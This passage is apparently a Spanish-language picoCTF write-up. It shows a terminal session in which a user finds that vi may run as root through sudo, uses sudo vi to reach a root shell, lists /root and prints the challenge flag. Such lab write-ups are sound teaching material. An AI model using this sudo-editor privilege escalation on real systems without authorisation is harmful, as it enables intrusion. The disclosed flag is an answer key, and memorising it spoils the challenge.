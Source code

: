 Nos conectamos con las credenciales




picoplayer@challenge:/$ ls /
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
picoplayer@challenge:/$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:/$ vi 

bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var

Press ENTER or type command to continue
picoplayer@challenge:/$ vi

ls: cannot open directory '/root': Permission denied

shell returned 2

Press ENTER or type command to continue
picoplayer@challenge:/$ sudo vi


Press ENTER or type command to continue
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Feb 25 03:42 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile

Press ENTER or type command to continue
picoCTF{uS1ng_v1m_3dit0r_55878b51}

Press ENTER or type command to continueConnection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.
Luiscat02-picoctf@webshell:/$ 